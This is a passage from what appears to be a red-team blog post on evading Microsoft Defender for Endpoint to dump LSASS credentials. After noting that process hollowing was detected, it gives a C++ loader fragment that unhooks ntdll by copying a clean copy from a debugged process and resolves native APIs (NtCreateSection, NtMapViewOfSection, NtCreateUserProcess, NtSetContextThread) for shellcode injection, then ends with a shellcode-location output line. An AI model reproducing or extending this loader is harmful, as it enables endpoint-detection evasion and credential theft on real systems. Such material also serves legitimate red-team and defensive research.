 ![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230915184322.png)

We find that Process Hollowing was detected. 

Now we can attempt replacing all remaining APIs to their NtAPI  equivalents. `NtCreateUserProcess` can be a little tricky to replace. Here is a blog showcasing how to do it: https://captmeelo.com/redteam/maldev/2022/05/10/ntcreateuserprocess.html

The source would look something like this: 

```
int main(int argc, char* argv[])
{
	[....snip....]

	size_t NtdllBAddress = reinterpret_cast<size_t>(hNtdll);
	printf("[+] Found ntdll base address: 0x%p\n", NtdllBAddress);
	int NtdllResult = CopyDLLFromDebugProcess(process.hProcess, NtdllBAddress, stealth);
	if (NtdllResult == 0)
	{
		printf("[+] Unhooked\n");
	}
	else
	{
		printf("[-] Failed to unhook\n");
	}

	// Get NtAPIs from clean NtDLL
	NtCreateSection ntCreateSection = (NtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
	NtMapViewOfSection ntMapViewOfSection = (NtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
	//NtUnmapViewOfSection ntUnmapViewOfSection = (NtUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection");
	NtCreateUserProcess ntCreateUserProcess = (NtCreateUserProcess)GetProcAddress(hNtdll, "NtCreateUserProcess");
	NtResumeProcess ntResumeProcess = (NtResumeProcess)GetProcAddress(hNtdll, "NtResumeProcess");
	NtResumeThread ntResumeThread = (NtResumeThread)GetProcAddress(hNtdll, "NtResumeThread");
	NtSetContextThread ntSetContextThread = (NtSetContextThread)GetProcAddress(hNtdll, "NtSetContextThread");
	NtGetContextThread ntGetContextThread = (NtGetContextThread)GetProcAddress(hNtdll, "NtGetContextThread");
	NtDelayExecution ntDelayExecution = (NtDelayExecution)GetProcAddress(hNtdll, "NtDelayExecution");

	/* LOADER */

```

[+]: Shellcode located at c7160